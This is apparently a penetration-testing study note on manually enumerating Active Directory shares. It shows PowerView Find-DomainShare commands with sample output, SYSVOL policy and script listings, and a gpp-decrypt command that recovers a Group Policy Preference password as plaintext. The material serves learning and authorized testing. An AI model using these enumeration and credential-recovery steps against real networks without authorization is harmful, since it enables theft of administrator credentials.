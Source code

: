 Manual Active Directory Share Enumeration

* Focus on `SYSVOL` may reveal files and directories on the DC
* Default directory on DC `%SystemRoot%\SYSVOL\Sysvol\domain-name`
* List and Review Policy and Scripts
* [Decrypt](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2) GPP configured Local Administrator Passwords
* Windows default shares are e.g. IPC$, ADMIN$$, C$
* Focus on NON-default shares

```powershell
Find-DomainShare # all shares
Find-DomainShare -CheckShareAccess # available to the attacker

Name           Type Remark                 ComputerName
----           ---- ------                 ------------
NETLOGON          0 Logon server share     DC1.corp.com
SYSVOL            0 Logon server share     DC1.corp.com
docshare          0 Documentation purposes FILES04.corp.com
Users             0                        FILES04.corp.com
ADMIN$   2147483648 Remote Admin           client74.corp.com
C$       2147483648 Default share          client74.corp.com
ADMIN$   2147483648 Remote Admin           client75.corp.com
C$       2147483648 Default share          client75.corp.com

# SYSVOL policies and scripts
ls \\dc01.corp.com\sysvol\corp.com\
ls \\dc01.corp.com\sysvol\corp.com\Policies\
ls \\dc01.corp.com\sysvol\corp.com\Scripts\

   Directory: \\dc01.corp.com\sysvol\corp.com

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:11 AM                Policies
d-----          9/2/2022   4:08 PM                scripts
```

```bash
(user㉿kali)~
# Decrypt Password configured by Group Policy Preference (GPP)
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```
